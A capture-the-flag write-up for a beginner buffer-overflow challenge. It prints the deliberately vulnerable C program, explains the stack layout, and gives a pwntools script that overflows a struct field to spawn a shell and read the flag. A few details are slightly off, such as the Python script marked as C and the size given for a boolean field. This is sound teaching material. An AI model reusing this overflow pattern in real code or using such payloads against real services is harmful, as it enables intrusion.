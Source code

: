 # Pwn 101: Memory Corruption

The first step in this task was to analyze the source code: 
```C
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <stdbool.h>

struct user {
	char name[16];
	int age;
	bool is_hacker;
} __attribute__((packed));

int main() 
{
	struct user hacker;
	hacker.is_hacker = 0;
	hacker.age = 25;

	setvbuf(stdout, NULL, _IONBF, 0);
	printf("Hey, hacker! What's your name?\n");

	read(STDIN_FILENO, hacker.name, 30);

	if (hacker.age == 25 && hacker.is_hacker == 1) {
		printf("You made it! Hackers dont have an age limit!\n");
		system("/bin/sh");
	} else {
		printf("Oh noes, you're not old enough to be a hacker!\n");
	}

	return 0;
}
```

There are a few things to notice in the source code, which is the first step from the README:

* After the includes, we find a struct called `user`. The struct holds three variables, the name, the age and whether the user is a hacker or not. A variable called `hacker` is defined with this struct, and its age is initialized to `25` and the `is_hacker` boolean value is intialized to `0`, which means the user is not really a hacker. The variables are only initialized, but not changed anywhere in the code. 
* Next, the `read()` function reads 30 characters of your input from the terminal, and put your text into the `hacker.name` variable. If you try to input more than 30 characters, the program will ignore them. _Notice how the name only have room for 15 characters! (All buffers has a 0-byte at the end)_
* The most special part in this source code, is the if-sentence. If `hacker.age` is `25`, and the boolean value `hacker.is_hacker` is `1`, a shell is spawned. If not, a text is pasted to your terminal, and the program exits. We want to program to spawn a shell, because then we can use `cat flag.txt` to fetch the flag! You may have noticed that the `is_hacker` variable is set to `0`. As mentioned, these variables never changes in this source code. This if-sentence of the code tells us that we need to change the `is_hacker` variable to `1`, but have to keep the variable value of `25`.  

Now that we have studied the source code, let's check out what happens when we connect to the server or run the executable locally. I usually test the connection to the server first, but it doesn't really matter if we study the code before or after testing it.

* Run `$ nc pwn101.tghack.no 1060` in the terminal to connect to the server.
* Run `$ ./pwn101` in the terminal to run the executable locally.

```
$ nc pwn101.tghack.no 1060 
Hey, hacker! What's your name?
marito_o
Oh noes, you're not old enough to be a hacker!
```

Oh well, no surprises there. This is exactly what we anticipate after reading the source code. Now we need to find out how to maintain the value of `hacker.age`, but change the `hacker.is_hacker` variable.

When understanding [the stack and memory layout](https://en.wikipedia.org/wiki/Data_segment), this is actually a quite simple task. However, understanding the stack and memory layout might not be too simple. Let's draw the memory layout to show you have it looks:

![Memory Layout](./stackframe_main_pwn101.png)

The picture above show us two drawings of the memory layout. The first shows the prologue of the **stack frame**. The stack frame is just the memory layout for a specific function. In our case that function is the main function. In the prologue, the previous stack frame pushed its return address in order for our main function to know where to return after finishing running through the code. In addition, the base pointer of the previous stack frame is pushed on the stack in order to know how to find the local variables when our main function has finished. Lastly, the stack frame makes space for all the local variable in our main function. In our case, the only local variable is the struct, which is the first declared variable in the main function, `struct user hacker`. Or, we may say that the struct contain all the local variables in this program. 

The memory layout drawing to the left shows the stack frame of the main function when all the variables have been initialized with a value. We can see that the variables are ordered in the same structure as it is defined in the struct, which is something that always happens with values in structs. This is the memory layout we have to use in order to overwrite the variables correctly. Basically, we have to use 16 bytes for the `name`, then 4 bytes for the `age`, and 4 bytes for the `is_hacker` variable. 

I wrote a Python script with the solution. Take a look the snippet below, which solves the structure of the input data to overwrite the `is_hacker` variable without changing the `age`:
```C
from pwn import *

r = remote("pwn101.tghack.no", 1060)

padding = "Marit er bestest" # 16 byte padding
binarydata = p32(25) # Binary data for the 32-bit integer '25'
is_hacker_byte = "\x01" # Hexadecimal representation of '1'

r.sendline(padding + binarydata + is_hacker_byte)
r.recvline()

r.interactive()
```

Here, I use pwn-tools to connect to the server with the domain name and the port as specified in the task description. Afterwards, I write the three variables with the right amount of characters, before sending them to the server. Then I receive the next line, and finish up the code with `r.interactive()` which starts an interactive session. By interactive session, I mean that you manually interact with the shell as if you had connected without the script. Read more about [Python](https://www.codecademy.com/learn/learn-python) and [Pwn-Tools](https://github.com/Gallopsled/pwntools) by pressing the links!

Now that you have a shell with access to read the flag, let's find it! Entering `id` or `whoami` as a command in the shell will list information about the current user. If you have access to read the file, you should be able to use the terminal comman `ls`, and then you can paste the contents of the file by writing `cat flag.txt`.
```
python2 solve_script.py 
[+] Opening connection to pwn101.tghack.no on port 1060: Done
[*] Switching to interactive mode
You made it! Hackers dont have an age limit!
$ ls
flag.txt
pwn101
$ cat flag.txt
TG18{b4bys_f1rst_mem0ry_c0rrupti0n}
```

AH YEAH!! We got the flag!!

**Fact:** Even though it is not as common as before, memory corruption is still a serious problem.

